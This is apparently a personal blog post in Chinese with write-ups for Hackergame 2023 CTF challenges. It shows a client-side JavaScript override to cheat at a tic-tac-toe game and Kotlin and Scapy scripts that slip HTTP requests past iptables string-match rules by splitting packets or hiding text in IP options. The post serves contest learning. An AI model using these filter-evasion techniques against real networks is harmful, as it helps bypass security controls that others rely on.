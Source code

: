 ```yaml
---
title: 投机取巧向的 Hackergame 2023 Writeups
date: 2023-11-04 17:39:32
desc: "第一次完整参加 Hackergame！"
tags: [笔记,CTF]
---
```


基于巧合~~（交友不慎）~~，今年终于完整参加了一次 Hackergame。其实往年也有参加，不过当时还是高中，时间不太够，只是做下签到题草草了事。

[官方的 Writeups](https://github.com/USTC-Hackergame/hackergame2023-writeups) 其实已经比较完整了，这里写几题完成方法和官方不太相同（一般更简单）的 Writeups。点击题目标题可以跳转到题目和官方题解。

### [赛博井字棋](https://github.com/USTC-Hackergame/hackergame2023-writeups/tree/master/official/%E8%B5%9B%E5%8D%9A%E4%BA%95%E5%AD%97%E6%A3%8B)

通过观察方法 `setMove(x, y)` 发现判断棋盘非空的逻辑在本地：

```javascript
async function setMove(x, y) {
  if (board[x][y] != 0) { // 注意这里
    return;
  }
  if (frozen) {
    return;
  }
  let url = window.location.href; // 获取当前 URL
  let data = { x: x, y: y }; // 设置要发送的数据
  return fetch(url, {
    method: "POST", // 设置方法为 POST
    headers: {
      "Content-Type": "application/json", // 设置内容类型为 JSON
    },
    body: JSON.stringify(data), // 将数据转换为 JSON 格式
  }).catch(errorHandler);
}
```

在 Chrome 中，直接右键 JS 资源，复写这个文件并把判断代码删除即可。

{% asset_img 1-1.webp %}

### [Komm, süsser Flagge](https://github.com/USTC-Hackergame/hackergame2023-writeups/tree/master/official/Komm%2C%20s%C3%BCsser%20Flagge)

**我的 POST**

通过观察规则 `-A myTCP-1 -p tcp -m string --algo bm --string "POST" -j REJECT --reject-with tcp-reset` 容易得到我们不能在数据包中包含 `POST` 这个字符串，很自然想到拆分成两个数据包。但是一开始使用 `nc` 等工具发现这并做不到，可能 `nc` 还是将他们放在了一个数据包里。这里用 Kotlin 进行简单实现：

```kotlin
fun main() {
    val data = "POST / HTTP/1.1\r\n" +
            "Cookie: GET / HTTP\r\n"+
            "Host: 202.38.93.11\r\n" +
            "Content-Length: 100\r\n\r\n"+
            "YOURTOKEN\r\n";
    Socket().use { socket ->
        socket.connect(InetSocketAddress(InetAddress.getByName("202.38.93.111"), 18080));
        Thread.sleep(1000);
        socket.getOutputStream().write(data.toByteArray(),0,3)
        Thread.sleep(1000);
        socket.getOutputStream().write(data.toByteArray(), 3, data.length - 3)
        socket.getInputStream().bufferedReader().lines().forEach {
            println(it)
        }
    }
}
```

**我的 P**

题都没看，直接试了一下，把上面的 `18080` 改成 `18081` 即可获取 flag。

**我的 GET**

通过观察规则：

```shell
-A myTCP-3 -p tcp -m string --algo bm --from 0 --to 50 --string "GET / HTTP" -j ACCEPT
-A myTCP-3 -p tcp -j REJECT --reject-with tcp-reset
```

容易得到服务器只接受前 50 字节包含 `GET / HTTP` 的数据包。网上查了很多资料，一开始想到用 TFO (TCP Fast Open)，但是迫于我可怜的寄网知识，不是很懂。后来在研究 IP 数据包的 Header 的时候发现有一个区域叫 [Options](https://en.wikipedia.org/wiki/Internet_Protocol_version_4#Options)，似乎可以让我们塞一些东西，所以就有了以下代码：

```python
from scapy.all import *
from scapy.layers.inet import IP, TCP, IPOption

def tcp_test(ip, port, data):
    # 第一次握手，发送SYN包
    # 请求端口和初始序列号随机生成
    p1 = IP(dst=ip,
            options=[IPOption(b'\x88\x0E\x00\x00\x47\x45\x54\x20\x2f\x20\x48\x54\x54\x50')]) / TCP(dport=port, sport=RandShort(), seq=RandInt(), flags='S')
    ans = sr1(p1, verbose=True)
    print(ans)
    # 假定此刻对方已经发来了第二次握手包：ACK+SYN
    sport = ans[TCP].dport
    s_seq = ans[TCP].ack
    d_seq = ans[TCP].seq + 1
    # 第三次握手，发送ACK确认包，顺带把数据一起带上
    print(sr1(IP(dst=ip, options=[IPOption(b'\x88\x0E\x00\x00\x47\x45\x54\x20\x2f\x20\x48\x54\x54\x50')]) / TCP(dport=port, sport=sport, ack=d_seq, seq=s_seq, flags='A') / data, verbose=True))

if __name__ == '__main__':
    data = 'POST / HTTP/1.1\r\n'
    data += 'Host: 202.38.93.111\r\n'
    data += 'Content-Length: 100\r\n'
    data += 'Accept: text/html\r\n\r\n'
    data += 'YOURTOKEN\r\n'
    tcp_test("202.38.93.111", 18082, data)
```

其中 `\x47\x45\x54\x20\x2f\x20\x48\x54\x54\x50` 部分就是 `GET / HTTP`，前面几个字节是 `Copied`、`Option Class`、`Option Number`，我也不是很懂，随便找了个看起来能塞足够长内容的类型——`136/0x88 Stream ID`，然后就可以发包了。

但是，这时候，通过 Wireshark，你很可能发现你的包要不就是没发出去，要不就是服务器返回握手包之后直接被 RST，再次[查了一堆资料](https://stackoverflow.com/questions/9058052/unwanted-rst-tcp-packet-with-scapy)之后，可以发现是内核认为这个数据包有问题，帮我们自动发送了 RST。于是，这时候就该使用题目中提供的 OpenVPN 了。

{% asset_img 2-1.jpg %}

---

其他题目的解法我都基本和官方一样，不再赘述。
